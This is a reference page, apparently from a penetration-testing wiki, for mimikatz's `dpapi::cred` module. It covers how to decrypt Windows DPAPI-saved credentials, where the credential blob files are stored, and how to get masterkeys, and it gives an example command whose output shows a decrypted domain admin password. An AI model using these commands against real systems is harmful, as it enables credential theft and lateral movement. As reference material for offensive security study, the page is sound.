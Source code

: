 # cred

`dpapi::cred` decrypts DPAPI saved credential such as RDP, Scheduled tasks, etc (cf. [dumping DPAPI secrets](https://www.thehacker.recipes/ad-ds/movement/credentials/dumping/dpapi-protected-secrets)). It has the following command line arguments:

* `/in`: the file path to decrypt. The file locations are `C:\Users\<UserName>\AppData\Local\Microsoft\Credentials\<credential_blob>\` and `C:\Users\<UserName>\AppData\Roaming\Microsoft\Credentials\<credential_blob>\`. Tools like [Seatbelt ](https://github.com/GhostPack/Seatbelt)come in handy for enumerating credential blob files' location
* `/lsaiso`: [In Windows, the LSAISO process runs as **an Isolated User Mode (IUM) process** in a new security environment that is known as Virtual Secure Mode (VSM).](https://docs.microsoft.com/en-us/troubleshoot/windows-client/performance/lsaiso-process-high-cpu-usage) It is used when Credentials Guard is in place
* `/masterkey`: the masterkey to use for decryption. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi).
* `/password`: the password to decrypt the blob
* `/unprotect`: displays the decryption results on screen

The following example was taken from Benjamin's [howto \~ scheduled tasks credentials](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-scheduled-tasks-credentials) guide, which displays the content of the credential file:

```
mimikatz # dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {5d4e7e0d-d922-4783-8efc-9319b45b1c9a}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000046 - 70
  szDescription      : Données d’identification locales
[...]
Decrypting Credential:
 * volatile cache: GUID:{5d4e7e0d-d922-4783-8efc-9319b45b1c9a};KeyHash:ba02ef86f26c683858d3df3dc961e37b0d47e574
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000fe - 254
  credUnk0       : 00004004 - 16388

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 03/01/2017 21:31:30
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:batch=TaskScheduler:Task:{813565C4-C976-4E78-A1CA-8BDAE749E965}
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : LAB\\admin
  CredentialBlob : waza1234/a
  Attributes     : 0
```
